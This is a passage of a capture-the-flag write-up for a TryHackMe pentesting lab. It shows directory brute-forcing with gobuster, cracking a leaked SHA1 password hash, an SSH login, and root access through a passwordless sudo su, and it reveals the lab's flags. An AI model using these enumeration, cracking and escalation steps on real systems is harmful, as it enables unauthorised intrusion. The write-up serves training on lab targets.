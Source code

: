 Further Exploring the ```secret``` directory,

```bash
root@wh0am1:~/CTF/TryHackMe/CCPentesting# gobuster dir -u 10.10.238.143/secret -w /usr/share/wfuzz/wordlist/general/common.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.143/secret
[+] Threads:        10
[+] Wordlist:       /usr/share/wfuzz/wordlist/general/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/04/09 13:25:43 Starting gobuster
===============================================================
/index.html (Status: 200)
/secret.txt (Status: 200)
===============================================================
2020/04/09 13:28:06 Finished
===============================================================
```

Content of secret.txt
> nyan:046385855FC9580393853D8E81F240B66FE9A7B8

Cracking the Hash Online : [Crackstation](http://crackstation.net)
Hash Algorithm : SHA1
> nyan : nyan


```bash
root@wh0am1:~/CTF/TryHackMe/CCPentesting# ssh nyan@10.10.238.143
nyan@10.10.238.143\'s password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Apr  9 10:19:14 2020 from 10.9.0.43
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt
supernootnoot
nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
congratulations!!!!
root@ubuntu:~#
```
